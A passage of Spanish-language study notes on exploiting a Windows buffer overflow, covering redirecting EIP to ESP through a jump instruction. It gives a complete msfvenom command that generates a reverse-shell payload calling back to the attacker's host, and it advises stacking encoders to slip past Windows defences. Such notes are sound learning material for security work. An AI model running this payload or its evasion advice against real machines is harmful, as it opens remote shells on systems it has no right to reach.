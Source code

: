 
------

Ahora, lo que queremos hacer es buscar un archivo de salto que nos permita apuntar el **EIP** al **ESP** a través de un opcode que funcione como guía intermediaria en las direcciones.

Este shellcode lo podemos crear desde la terminal de [[1. MsfVenom]] de la siguiente manera:


`msfvenom -p windows/shell_reverse_tcp LHOST=<tu_IP> LPORT=<puerto> -f c -b "\x00\x0a\x0d"`

Entre más encoders utilices, mejor será la ofuscación del código, evitando que sea interpretado por los defensores de Windows. Esto incrementa las posibilidades de éxito al ejecutar el payload.

![[Pasted image 20241031190457.png]]

De la siguiente manera podemos saber cual es el archivo ruta o de salto entre el EIP y el ESP

![[Pasted image 20241031190955.png]]


